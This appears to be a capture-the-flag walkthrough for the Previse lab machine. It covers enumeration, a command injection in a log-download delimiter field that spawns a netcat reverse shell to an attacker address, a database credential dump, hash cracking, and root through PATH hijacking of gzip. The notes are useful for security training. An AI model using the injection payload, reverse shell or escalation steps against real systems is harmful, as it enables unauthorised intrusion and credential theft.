

###Box Info###

OS: Linux \
IP: 10.10.11.104 \

Skills learned:
Curl/Python CMD injection

##I. Enumeration##

nmap -p- -A -oN Exploreprts.txt ${IP}
    22 OpenSSH
    80 Apache httpd 2.4.29

Dirb ${IP}/ -X .php
    /accounts.php
        Ability to create UN && PW
    /login.php
    /status.php

###**Step 1. Create User Account::**###
    Create account with curl request
        curl -is -X POST -d "username=${UN}&password=${PW}&confirm=${PW}" ${IP}/accounts.php
    Login with new account:
        Upload access, "MySQL server is online and connected", 3(2) registered admins, sitebackup.zip, User: m4lwhere
        Management Menu -> Request Log Data: file delimeter 

###**Step 2. CMD Injection::**###
    + inspect file delimeter
        + change comma to inlcude a nc shell
            + comma && nc -e /bin/sh ${AttackerIP}:${port#}
        + setup a listener shell : nc -lnp ${port#}
    + || Burp request to repeater && add:
        + delim=comma;python -c import etc etc. (use <attack-Tun-IP) \
        + see  \

###**Step 3. Shell::**###
```
    python -V
    check https://github.com/crcirq32/Bash/blob/main/reverseshells.sh to upgrade shell
    cat config.php::
        function connectDB(){
        $host = 'localhost';
        $user = 'root';
        $passwd = 'mySQL_p@ssw0rd!:)';
        $db = 'previse';
    
    upgrade shell: 
        '/usr/bin/python -c 'import pty.pty.spawn("/bin/bash")'
        mysql -u root -D previse -p
        select * from accounts; :: 
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | Hacker   | $1$🧂llol$tJLubtCQPmgiZKavmuvIO/ | 2021-12-29 18:06:41 |
+----+----------+------------------------------------+---------------------+
```
+ hashcat -m 500 hashm4lwhere.txt /usr/share/wordlist/rockyou.txt::  #500 | md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
  + m4lwhere:ilovecody112235! see 

---
###**Step 4. SSH::**###
   + ssh m4lwhere@10.10.11.104   
   + https://raw.githubusercontent.com/worawit/CVE-2021-3156/main/exploit_nss.py
     + "Target is patched"
   + sudo -l (ALWAYS RUN!!)
---
   
###**Step 5 root:: via "Path injection"**###
    + create file "gzip" in dir with perms.
    + 'chmod 777 gzip'
    + configure $PATH to current dir
    + establish listener
    + ./opt/scripts/access_backup.sh 

